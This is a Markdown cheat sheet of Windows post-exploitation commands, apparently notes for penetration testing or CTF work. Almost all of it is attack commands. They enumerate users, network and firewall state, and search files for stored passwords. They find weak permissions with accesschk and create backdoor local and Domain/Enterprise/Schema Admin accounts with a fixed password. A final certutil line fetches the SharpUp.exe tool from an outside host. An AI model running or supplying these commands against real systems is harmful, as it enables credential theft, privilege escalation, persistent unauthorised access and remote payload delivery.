 ## users and groups
```
whoami /all
net users
net localgroup
net user <username>
net localgroup administrators
```
## network status
```
netstat -anoy
route print
arp -A
```
## firewall
```
netsh advfirewall firewall show rule name=all
netsh advfirewall firewall show rule name=inbound
netsh advfirewall firewall show rule name=outbounD
netsh firewall show state
netsh firewall show config
```
## scheduled tasks
```
schtasks /query /fo LIST /v > schtasks.txt
```
## find passwords
```
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini
dir /s pass == cred == vnc == .config
findstr /spin "password" .
```
## windows shares
```
NET SHARE
NET USE
--> CREATE A SHARE ON WINDOWS FROM THE COMMAND LINE:
NET SHARE <sharename>=<drive/folderpath> /remark: "This is my share."
--> MOUNT A WINDOWS SHARE FROM THE COMMAND LINE:
NET USE Z: [\\COMPUTER_NAME\SHARE_NAME](file://COMPUTER_NAME/SHARE_NAME) /PERSISTENT:YES
--> UNMOUNT SHARE:
NET USE Z: /DELETE
--> DELETE A SHARE ENTIRLE
NET SHARE /DELETE
```
## Find weak file permissions
```
accesschk.exe -uwqs Users c:*.*
```

A part of group "Authenticated Users" - you would be surprised if you have a real user.

```
accesschk.exe -uwqs "Authenticated Users" c:*.*
```
## Add Administrator Account
```
cmd.exe /c net user c1dn3y superPassword /add
cmd.exe /c net localgroup administrators c1dn3y /add
cmd.exe /c net localgroup "Remote Desktop Users" c1dn3y /add
```
## Add a Windows Domain Administrator
```
cmd.exe /c net user siren superPassword /add
net localgroup Administrators siren /ADD /DOMAIN
net localgroup "Remote Desktop Users" siren /ADD /DOMAIN
net group "Domain Admins" siren /ADD /DOMAIN
net group "Enterprise Admins" siren /ADD /DOMAIN
net group "Schema Admins" siren /ADD /DOMAIN
net group "Group Policy Creator Owners" siren /ADD /DOMAIN
```
## Access Check enumeration
```
accesschk.exe /accepteula (always do this first!!!!!)
accesschk.exe -ucqv [service_name] (requires sysinternals accesschk!)
accesschk.exe -uwcqv "Authenticated Users" * (won't yield anything on Win 8)
accesschk.exe -ucqv [service_name]
#Find ALL weak folder permissions, per drive.
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\
accesschk.exe -uwqs Users c:*.*
accesschk.exe -uwqs "Authenticated Users" c:*.*
```
## Code Compilation
```
apt-get install mingw-w64

Cross-Compilation Reference:
Ci686-w64-mingw32-gcc hello.c -o hello32.exe
32-bitx86_64-w64-mingw32-gcc hello.c -o hello64.exe
64-bit # C++i686-w64-mingw32-g++ hello.cc -o hello32.exe
32-bitx86_64-w64-mingw32-g++ hello.cc -o hello64.exe # 64-bit
```

## hotfixes
```
wmic qfe list
```

## file transfer
```
certutil -urlcache -f -split http://10.10.14.63:4321/SharpUp.exe sharpup.exe
```